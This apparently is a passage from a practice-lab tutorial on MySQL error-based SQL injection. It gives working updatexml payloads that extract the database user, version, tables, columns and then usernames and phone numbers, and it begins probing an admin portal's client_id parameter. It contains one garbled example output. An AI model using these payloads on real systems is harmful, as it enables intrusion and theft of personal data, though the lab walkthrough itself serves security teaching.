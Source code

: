 The query we will use if the following:

`updatexml(null,concat(0x0a,'<Data_To_Exfiltrate>'),null)-- -`

The `CONCAT(0x0a, 'user()')` part concatenates two values:

- `0x0a`: This is the hexadecimal representation of the `line feed character (LF)`, which is a new line character.

- `'user()'`: returns the current MySQL user.

- The result of this concatenation is `\n asfg`.

As the first and third parameters are `null`, it will process the second argument normally.

**Query to read exfiltrate `user()`:** `updatexml(null,concat(0x0a,user()),null)-- -`

![Login_user](D:\Vulnerabilities_Tutorial\Practice\Login_user.png)

**Query to read exfiltrate `version()`:** `updatexml(null,concat(0x0a,version()),null)-- -`

![Login_version](D:\Vulnerabilities_Tutorial\Practice\Login_version.png)

**Query to read exfiltrate `tables`:** `updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1 )),null)-- -`

> Note: update `limit 0,1` to `limit 1,1`, etc. to get all tables.



![Login_Table_1](D:\Vulnerabilities_Tutorial\Practice\Login_Table_1.png)

![Login_Table_2](D:\Vulnerabilities_Tutorial\Practice\Login_Table_2.png)

**Query to read exfiltrate `columns`:** `updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_name='nominee' limit 0,1 )),null)-- -`

![Login_Columns_1](D:\Vulnerabilities_Tutorial\Practice\Login_Columns_1.png)

![Login_Columns_2](D:\Vulnerabilities_Tutorial\Practice\Login_Columns_2.png)

Now, we have columns and tables let's extract usernames and phone numbers, etc from database.

![Login_Extract_Data](D:\Vulnerabilities_Tutorial\Practice\Login_Extract_Data.png)

## Admin Portal

After we bypass login page, we will be redirected to `Admin Portal`, Let's see what is there.

We can see a `client.php` page and there is a `Client Status`, let's click it.

![Portal_Client](D:\Vulnerabilities_Tutorial\Practice\Portal_Client.png)

We can see there is a `client_id` parameter in the request, let's try to inject a single quote on it.

![Protal_Clien_ID](D:\Vulnerabilities_Tutorial\Practice\Protal_Clien_ID.png)
